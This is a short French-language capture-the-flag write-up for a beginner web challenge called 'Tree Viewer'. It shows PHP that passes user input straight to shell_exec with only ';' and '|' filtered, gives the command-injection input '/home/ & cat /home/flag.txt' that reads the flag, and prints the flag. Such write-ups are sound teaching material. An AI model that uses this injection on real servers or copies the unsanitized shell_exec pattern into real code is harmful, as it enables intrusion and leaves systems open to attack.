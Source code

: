 ```yaml
---
layout: default
type: writeup
title: Tree Viewer
category: Web
point: 50
files: []
---
```


{% raw %}
> **title:** Tree Viewer
>
> **category:** Web
>
> **difficulty:** Introduction
>
> **point:** 50
>
> **author:** Eteck#3426
>
> **description:**
>
> Here, you can check the content of any directories present on the server.
> 
> Find a way to abuse this functionality, and read the content of /home/flag.txt
> 

## Solution

Le challenge permet de lister un dossier du serveur :

![Site du challenge](images/site.png)

On a également accès au code source PHP :

![Source php donnée](images/source.png)

On voit que pour lister le dossier, c'est la fonction `shell_exec` qui est utilisée directement avec notre input :

```php
<?= shell_exec('ls '.$parsed); ?>
```

Et le seul filtre sur notre input est le `preg_match_all` qui empêche l'utilisation de `;` et `|` :

```php
$parsed = isset($_POST['input']) ? $_POST['input'] : "/home/";

preg_match_all('/[;|]/m', $parsed, $illegals, PREG_SET_ORDER, 0);
```

<br>

### Command injection

Il s'agit donc là d'une injection de commande classique, on sait que le flag est dans `/home/flag.txt`, on va donc le `cat`.

Pour récupérer le résultat de ce `cat`, on va le concaténer au résultat du `ls` avec un `&` :

`ls` **`/home/ & cat /home/flag.txt`**

![Source php donnée](images/flag.png)

**`FLAG : PWNME{US3R_1nPUT2_1n_ShELL_Y3S_6x8c}`**

{% endraw %}
